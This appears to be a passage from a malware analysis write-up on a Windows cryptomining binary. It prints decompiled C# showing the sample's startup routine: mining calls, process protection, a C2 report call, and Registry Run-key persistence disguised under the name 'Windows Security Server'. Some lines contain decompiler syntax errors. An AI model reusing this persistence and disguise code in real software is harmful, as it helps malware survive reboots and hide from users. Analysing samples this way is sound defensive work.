 This binary attempts to establish persistence through a registry key within `Software\\Microsoft\\Windows\\CurrentVersion\\Run\\` under the name of `Windows Security Server`.

#### Start

This function is called through the usage of the method 'from.onload()'  when the binary is loaded.

```C#
internal class Main
{
	// Token: 0x0600000A RID: 10 RVA: 0x00002092 File Offset: 0x00000292
	public static void smethod_0()
	{
		Class8.installWinRun(Class1.string_ExecutablePath;);
		Class6.createMutex();
		Class5.startMining_minexmr();
		Class5.startMining_poolmn();
		new ProtectProcess();
		Class10.SendReportC2C();
	}
}

```

#### Malware installation:

As stated above this sample persists and ensures execution after power ups or reboots by modifying the operating system registry.

```C#
internal class Class8
{
	// Token: 0x06000024 RID: 36 RVA: 0x0000280C File Offset: 0x00000A0C
	public static void installWinRun(string string_0)
	{
		Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\");
		try
		{
			string[] expr_25 = Class1.string_ExecutablePath;.Split(new char[]
			{
				'\\'
			});
			string arg_2B_0 = expr_25[expr_25.Length - 1];
			RegistryKey expr_3C = Registry.CurrentUser.OpenSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\", true);
			expr_3C.SetValue("Windows Security Server", Class1.string_ExecutablePath;);
			expr_3C.Close();
		}
		catch
		{
			Console.WriteLine("Startup add error!");
		}
	}
}
```
